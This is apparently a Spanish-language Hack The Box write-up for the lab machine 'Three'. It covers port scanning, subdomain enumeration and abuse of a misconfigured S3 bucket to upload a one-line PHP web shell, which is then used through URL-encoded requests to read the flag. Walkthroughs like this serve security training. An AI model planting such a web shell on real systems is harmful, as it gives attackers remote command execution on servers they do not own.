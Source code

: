 ```yaml
---
title: Three
date: 2025-04-8 00:00:00 +0200
categories: [writeup, hackthebox]
tags: [hackthebox, aws, s3]     
image:
    path: https://www.hackthebox.com/images/logo-htb.svg
    alt: Hack The Box
---
```

## Three
De nuevo una serie de tareas para ir resolviendo la máquina. Esta vez parece algo relacionado con s3 de amazon.

Task 1

How many TCP ports are open?
```shell
└─$ nmap -p- -vv -T4 10.129.229.84                    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-07 17:20 EDT
Initiating Ping Scan at 17:20
Scanning 10.129.229.84 [4 ports]
Completed Ping Scan at 17:20, 0.08s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:20
Completed Parallel DNS resolution of 1 host. at 17:20, 13.00s elapsed
Initiating SYN Stealth Scan at 17:20
Scanning 10.129.229.84 [65535 ports]
Discovered open port 80/tcp on 10.129.229.84
Discovered open port 22/tcp on 10.129.229.84
```
>2

Task 2

What is the domain of the email address provided in the "Contact" section of the website?

>thetoppers.htb

Task 3

In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?
> /etc/hosts

Task 4

Which sub-domain is discovered during further enumeration?

Antes de continuar con esta tarea tuve que instalar seclist en la máquina Kali25 que estoy utilizando para hacer los retos de HTB. 
Luego podremos valernos de gobuster para buscar 
```
apt install seclist
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://thetoppers.htb
```

Sin embargo no tuve resultados. Encontré una explicación en [Reddit](https://www.reddit.com/r/hackthebox/comments/11bsuxt/can_find_the_s3_subdomain_that_i_am_supposed_to/?tl=es-es&rdt=58488) Algo malo pasa con esta máquina? Es posible porque me dan pistas cuando hago spawn... 

Please wait for a few minutes until all machine related services are up and running.
Expect to see {"status":"running"} when visiting s3.thetoppers.htb

> s3.thetoppers.htb

Task 5

Which service is running on the discovered sub-domain?

Como es lógico sería inútil usar nmap contra un dominio en amazon, pero es posible que una mala configuración de la máquina nos permita el acceso
volvemos a configurar /etc/hostname, esta vez con el subdomino por delante. 

```shell
10.129.234.148 s3.thetoppers.htb
```
Ahora visitamos la web http://s3.thetoppers.htb/ parece que la instanancia muestra un status 
```
{"status": "running"}
```
> amazon s3

Task 6

Which command line utility can be used to interact with the service running on the discovered sub-domain?
> awscli

Task 7

Which command is used to set up the AWS CLI installation?
``` shell
sudo apt install awscli
```
> aws configure

Task 8 

What is the command used by the above utility to list all of the S3 buckets?

Aqui tenemos que configurar el cliente de aws antes de poner usarlo contra la instancia de s3
``` shell
└─$ aws configure                               
AWS Access Key ID [None]: hacked
AWS Secret Access Key [None]: hacked
Default region name [None]: hacked
Default output format [None]: hacked
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2025-04-08 16:27:00          0 .htaccess
2025-04-08 16:27:00      11952 index.php

```
> aws s3 ls 

Task 9

This server is configured to run files written in what web scripting language?
> php

Submit Flag

Vamos a codificar una pequeña shell en PHP que al pasarle parámetros los ejecute como instrucciones del lado del servidor

``` php
<?php
    system($_GET["cmd"]);
?>
```
Ahora lo subimos a la instancia de s3 
``` shell
└─$ aws --endpoint=http://s3.thetoppers.htb s3 cp hello.php s3://thetoppers.htb  
upload: ./hello.php to s3://thetoppers.htb/hello.php              
```
Ahora desde el navegador deberíamos poder ejecutar comandos en la instancia para encodear los comandos en un formato que no rechaze el servidor te puedes valer de URL encoders que hay online de forma que **ls /var/www** se convierte en **ls%20%2Fvar%2Fwww**                                                     

```
http://thetoppers.htb/hello.php?cmd=ls%20%2Fvar%2Fwww

flag.txt html 

http://thetoppers.htb/hello.php?cmd=cat%20%2Fvar%2Fwww%2Fflag.txt%0A

```

Submit root flag [achivement](https://www.hackthebox.com/achievement/machine/2336390/489)

